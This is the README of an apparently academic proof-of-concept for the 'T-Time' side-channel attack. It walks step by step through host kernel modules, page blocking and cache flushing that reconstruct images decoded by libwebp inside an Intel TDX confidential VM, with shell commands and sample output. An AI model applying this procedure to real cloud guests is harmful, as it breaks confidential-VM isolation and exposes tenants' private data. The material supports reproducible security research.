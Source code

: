 # evaluation webp

In this folder, you will perform an image extraction attack on WebP using the T-Time attack.

(You can refer the video Ttime_webp.mp4 in this folder)

**brief description**

In this experiment, we target libwebp version 1.5.0, attacking the image decoding process to extract image data.

For experimental purposes, we manually compiled all required libraries and header files, and included only the necessary components for the experiment.

mbedtls : [https://github.com/Mbed-TLS/mbedtls/releases/tag/v3.5.2](https://github.com/Mbed-TLS/mbedtls/releases/tag/v3.5.2)

libwebp : [https://github.com/webmproject/libwebp/releases/tag/v1.5.0](https://github.com/webmproject/libwebp/releases/tag/v1.5.0)

The versions of gcc and g++ used during compilation are as follows

```bash
gcc (Ubuntu 13.3.0-6ubuntu2~24.04) 13.3.0
Copyright (C) 2023 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.

g++ (Ubuntu 13.3.0-6ubuntu2~24.04) 13.3.0
Copyright (C) 2023 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.

ldd (Ubuntu GLIBC 2.39-0ubuntu8.4) 2.39
Copyright (C) 2024 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
```

Please note that detailed code explanations is currently under development and is not included in this release.

The explanation will proceed by alternating between the host and TD (VM) perspectives.

1. VM perspective

Navigate to the T-Time_poc_vm/evaluation_webp directory and run the [build.sh](http://build.sh/) script

Then, execute the print_address program. You should see output similar to the following:

```bash
root@tdx-guest:~/VM/T-Time_poc_vm/evaluation_webp# ./print_address
Decoded WebP file: 64x64.webp (Width: 64, Height: 64)
Raw pixel data saved to: test.txt
Matching library:
Backed by:	/root/VM/T-Time_poc_vm/evaluation_webp/library/libwebp.so.7
Range:		0x7ffff7f55000-0x7ffff7fac000
Length:		356352
Offset:		12288
Permissions:	r-xp
Inode:		263731
Device:		fd:01

Code Location VP8ParseIntraModeRow     : vaddr=0x7ffff7f5a000, paddr=0x19409000 [pfn 0x19409]
Code Location VP8DecodeMB              : vaddr=0x7ffff7f5d000, paddr=0x19d47000 [pfn 0x19d47]
Code Location GetCoeffsFast            : vaddr=0x7ffff7f5c000, paddr=0x19e17000 [pfn 0x19e17]
```

Take note of the PFNs displayed in the output

- VP8ParseIntraModeRow: 0x19409
- VP8DecodeMB: 0x19d47
- GetCoeffsFast: 0x19e17

1. Host perspective

Navigate to the T-Time_poc_host/poc/evaluation_webp directory and run the [setting.sh](http://setting.sh/)

When prompted, input the PFNs you previously noted from the virtual machine output:

- VP8ParseIntraModeRow
- VP8DecodeMB
- GetCoeffsFast

```bash
root@tdx:/home/csl/HOST/T-Time/attack/T-Time_poc_host/poc/evaluation_webp# ./setting.sh 
Loading remove.ko from /home/csl/HOST/T-Time/attack/T-Time_poc_host/script/../module/removelist...
Unloading remove...
Loading flushremove.ko from /home/csl/HOST/T-Time/attack/T-Time_poc_host/script/../module/flushremovelist...
Unloading flushremove...
flushremove.ko successfully unloaded.
Enter guest PFN for (VP8ParseIntraModeRow) (e.g., 0x1234): 0x19409
Enter guest PFN for (VP8DecodeMB) (e.g., 0x1234): 0x19d47
Enter guest PFN for (GetCoeffsFast) (e.g., 0x1234): 0x19e17
```

During this process, the cache lines corresponding to the target instruction code are automatically evicted to enable clear inference of the image decoding data.

After completing this step, you will be able to see the block page list and the addresses to flush as shown below.

```bash
---------------------------------------
Loading allprint.ko from /home/csl/HOST/T-Time/attack/T-Time_poc_host/script/../module/printlist...
Unloading allprint...
allprint.ko successfully unloaded.
[ 2770.675110] VM process found: qemu-system-x86 (PID: 2779)
[ 2770.675117] Running woomin_list_print and woomin_flush_list_print...
[ 2770.675119] [woomin_list_print] woomin_list[0][VP8ParseIntraModeRow] = 0x19409 (blocked = 1)
[ 2770.675121] [woomin_list_print] woomin_list[1][VP8DecodeMB] = 0x19d47 (blocked = 1)
[ 2770.675123] [woomin_list_print] woomin_list[2][GetCoeffsFast] = 0x19e17 (blocked = 1)
[ 2770.675124] [woomin_flush_list] woomin_flush list[0] = 0x19d47750 (VA : 0xff116453c7547750)
[ 2770.675126] [woomin_flush_list] woomin_flush list[1] = 0x19d47b00 (VA : 0xff116453c7547b00)
[ 2770.675128] [woomin_flush_list] woomin_flush list[2] = 0x19d47b53 (VA : 0xff116453c7547b53)
[ 2770.675129] [woomin_flush_list] woomin_flush list[3] = 0x19d47de8 (VA : 0xff116453c7547de8)
[ 2770.675130] [woomin_flush_list] woomin_flush list[4] = 0x19d47e05 (VA : 0xff116453c7547e05)
[ 2770.675131] [woomin_flush_list] woomin_flush list[5] = 0x19e17b00 (VA : 0xff116453c7617b00)
[ 2770.675132] [woomin_flush_list] woomin_flush list[6] = 0x19e17b50 (VA : 0xff116453c7617b50)
[ 2770.684599] Exiting TDX Print Module
---------------------------------------

```

1. Host perspective

Navigate to the T-Time_poc_host/poc/evaluation_webp/parse directory and run the capture_threshold.sh script

**Important:** Wait until the following message is displayed:

```bash
execute the target program ! 
```

1. VM perspective

Run the threshold program.

**Important:** Wait until the following message is displayed:

```bash
threshold done!
```

1. Host perspective

Terminate the program by pressing Ctrl + C. Then, run the [threshold.sh](http://threshold.sh/) script

This script automatically determines and sets the threshold required for image reconstruction.

After that, run the [capture.sh](http://captures.sh/) script

**Important:** Wait until the following message is displayed:

```bash
execute the target program ! 
```

1. VM perspective

Decode the Wapiti image by running:

```
decode paper_image/paper_wapiti.webp test.txt
```

**Note:** If you want to decode the Street image instead, pass paper_street.webp as the argument:

**Important:** Wait until the following message is displayed:

```bash
Raw pixel data saved to: test.txt
```

1. Host perspective

Terminate the program by pressing Ctrl + C. Then, run the [reconstruction.sh](http://reconstruction.sh/) script with logfile.txt as the argument:

Once the image reconstruction is complete, you should see the following output:

```bash
Image saved as output_y.png
Image saved as output_y_inverse.png
Image saved as output_yuv.png
Image saved as output_yuv_inverse.png
```

Check the reconstructed images:

- output_y.png: Reconstructed using the Y component.
- output_y_inverse.png: Inverse reconstruction using the Y component.
- output_yuv.png: Reconstructed using the YUV components.
- output_yuv_inverse.png: Inverse reconstruction using the YUV components.
